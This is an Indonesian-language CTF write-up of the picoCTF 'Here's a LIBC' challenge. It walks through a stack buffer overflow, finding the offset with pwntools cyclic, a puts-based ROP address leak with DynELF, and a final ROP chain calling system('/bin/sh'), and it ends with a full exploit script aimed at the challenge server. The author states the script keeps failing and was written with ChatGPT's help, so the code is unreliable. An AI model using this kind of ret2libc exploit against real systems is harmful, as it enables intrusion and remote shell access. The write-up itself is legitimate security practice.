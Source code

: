 # Write Up Here a Libc

Step pertama yang saya coba adalah dengan menjalankan program dengan connect ke remote server yang disediakan. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/14bdca32-f80e-4890-bba7-7003b082a89b">
</div>
</br>


Dari foto di atas, saya mengetahui bahwa program ini merubah input text yang dimasukkan oleh user menjadi uppercase di huruf yang ganjil dan lowercase di huruf yang genap.

Lalu, saya mencoba untuk membuka program dengan Ghidra. Pada fungsi **main**, saya mengetahui bahwa dia memanggil fungsi **do_stuff()** yang disimpan dalam do while.

<div align="center">
  <img src="https://github.com/user-attachments/assets/95b39820-4de7-47ac-b831-de0a515656be">
</div>
</br>


Berikut adalah fungsi **do_stuff()**:

<div align="center">
  <img src="https://github.com/user-attachments/assets/b38a0f05-93f1-4229-a819-50d661c9cafd">
</div>
</br>


Berdasarkan decompiled code fungsi **do_stuff()**, ada kemungkinan buffer overflow pada fungsi scanf pertama yang ini adalah input dari user dengan buffer 112 dari local_88. Lalu, pada for loop, huruf yang di convert_case hanya sampai < 100.

Saat saya mencoba input string random untuk mencoba buffer overflow, terjadi segmentation fault.

<div align="center">
  <img src="Screenshot 2024-11-28 021056](https://github.com/user-attachments/assets/c01e2b64-54ad-4c78-b61f-fb9b7ab44a79">
</div>
</br>


Selanjutnya saya mencoba untuk menjalankan di gdb dengan cara yang sama dengan foto di atas. Awalnya saya bingung karena sudah lebih banyak dari buffer (112) tapi nilai di rip belum berubah.

<div align="center">
  <img src="https://github.com/user-attachments/assets/e50750d4-2653-4911-b511-e9df98805054">
</div>
</br>


Karena saya skill issue dan bingung kenapa saat saya menggunakan **gdb gef** tidak berubah juga rip nya (mungkin payload nya salah atau kurang panjang) dan tidak menemukan offset, saya mencari write up di Youtube dan meminta bantuan ChatGPT. Berdasarkan GPT dan video di Youtube, saya akhirnya menggunakan **pwntools cyclic** untuk menemukan offset dari buffer overflow yang ingin dilakukan. Berikut code nya:


```python
from pwn import *

binary = './vuln'
elf = ELF(binary)
context.binary = binary

p = process(binary)

payload = cyclic(200)
p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!', payload)

p.wait()
core = p.corefile

offset = cyclic_find(core.read(core.rsp, 4))
log.info(f"Offset found: {offset}")
```

Saya menjalankan scriptnya di kali linux karena di windows ternyata error dan harus di linux. Ini offsetnya:

<div align="center">
  <img src="https://github.com/user-attachments/assets/03b0e75b-3745-46fc-b81d-87cd27fa54e3">
</div>
</br>

**Note 1**: Saya ingin jujur ko, di step yang akan dijelaskan selanjutnya, saya mengikuti bantuan ChatGPT terutama dalam pembuatan script.

**Note 2:** Script yang saya buat dengan bantuan GPT, saat dijalankan selalu mengalami error. Tetapi, di bawah akan saya jelaskan ide dari script yang saya buat. Maaf, ko.

Selanjutnya, setelah mengetahui offset, saya mencari address dari fungsi-fungsi yang ada di libc. Tujuan akhir alamat yang ingin diambil adalah alamat fungsi `system`. Selain fungsi, string `/bin/sh` juga saya cari untuk menjalankan shell di remote server.

Selanjutnya, saya dengan bantuan ChatGPT membuat script untuk eksploitasinya. Pertama, saya membuat fungsi `leak` yang berfungsi untuk nge-leak address dari fungsi yang ada di libc dengan ROP. Fungsi ini akan mengembalikan alamat yang di-leak.


```python
def leak(address):

    log.info(f"Leaking data from address: {hex(address)}")
    
    rop = ROP(elf)
    rop.call(elf.plt['puts'], [address])  # Memanggil puts(address)
    rop.call(main_addr)  # Kembali ke main setelah memanggil puts

    payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload) 
    p.recvline()
    leaked_data = p.recvline().strip()
    
    log.info(f"Leaked data: {leaked_data}")
    return leaked_data.ljust(8, b'\x00')  
```


Secara garis besar, fungsi di atas bekerja dengan membuat ROP chain dengan berisi fungsi `puts` pada plt dan address `main` lalu payload dikirim dan server akan mengembalikan address `puts` dari libc.

Selanjutnya, saya membuat fungsi `dynelf_exploit` untuk mendapatkan alamat fungsi `system` dan string `/bin/bash`.


```python
def dynelf_exploit():

    log.info("Starting DynELF...")
    dynelf = DynELF(leak, elf=elf)  # Inisialisasi DynELF dengan fungsi leak
    system_addr = dynelf.lookup('system', 'libc')  # Cari alamat fungsi system
    bin_sh_addr = next(dynelf.iter_strings('/bin/sh'))  # Cari string '/bin/sh'
    log.success(f"system: {hex(system_addr)}, /bin/sh: {hex(bin_sh_addr)}")
    return system_addr, bin_sh_addr
```


Fungsi di atas akan menggunakan DynELF untuk memanggil fungsi leak dengan binary ELF dari binary yang didapat dari soal. Setelah mendapatkan address dari fungsi `leak`, dicari address dari `system` dan `/bin/sh`. Lalu, fungsi ini akan me-return kedua address tersebut.

Pada fungsi `exploit` ini, saya mulai eksploitasi. 


```python
def exploit():

    system_addr, bin_sh_addr = dynelf_exploit()

    log.info("Sending final payload to spawn shell...")
    rop = ROP(elf)
    rop.call(system_addr, [bin_sh_addr])  # Memanggil system("/bin/sh")
    final_payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!\n", final_payload)

    # Berikan shell interaktif
    p.interactive()
```
Fungsi ini akan pertama-tama mencari address dari `system` dan `/bin/sh` menggunakan fungsi `dynelf_exploit` di atas. Selanjutnya menggunakan ROP yang berisikan `system("/bin/sh")` sebagai payload yang akan dikirimkan dan mendapatkan shell.

Tetapi, dari code ini, masih terjadi error yang saya juga bingung solve nya bagaimana. Berikut errornya:

<div align="center">
  <img src="https://github.com/user-attachments/assets/71c5da90-7308-41b4-8fc2-77edc1309386">
</div>
</br>


Error ini terjadi ketika script sudah mendapatkan beberapa address, lalu terjadi error ini. Mohon maaf ko, saya sudah berusaha. Jika saya ada ide untuk solve ini, saya akan edit write up ini.

### FULL SCRIPT CODE

```python
from pwn import *

binary = './vuln'  # Nama binary
elf = ELF(binary)
context.binary = elf

# Alamat GOT dari puts dan fungsi main
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

# Offset buffer overflow
offset = 136

# Remote target
p = remote('mercury.picoctf.net', 49464)

def leak(address):

    log.info(f"Leaking data from address: {hex(address)}")
    
    rop = ROP(elf)
    rop.call(elf.plt['puts'], [address])  # Memanggil puts(address)
    rop.call(main_addr)  # Kembali ke main setelah memanggil puts

    payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload) 
    p.recvline()
    leaked_data = p.recvline().strip()
    
    log.info(f"Leaked data: {leaked_data}")
    return leaked_data.ljust(8, b'\x00')  

def dynelf_exploit():

    log.info("Starting DynELF...")
    dynelf = DynELF(leak, elf=elf)  # Inisialisasi DynELF dengan fungsi leak
    system_addr = dynelf.lookup('system', 'libc')  # Cari alamat fungsi system
    bin_sh_addr = next(dynelf.iter_strings('/bin/sh'))  # Cari string '/bin/sh'
    log.success(f"system: {hex(system_addr)}, /bin/sh: {hex(bin_sh_addr)}")
    return system_addr, bin_sh_addr

def exploit():
   
    system_addr, bin_sh_addr = dynelf_exploit()

    log.info("Sending final payload to spawn shell...")
    rop = ROP(elf)
    rop.call(system_addr, [bin_sh_addr])  # Memanggil system("/bin/sh")
    final_payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!\n", final_payload)

    p.interactive()

if __name__ == "__main__":
    exploit()

```








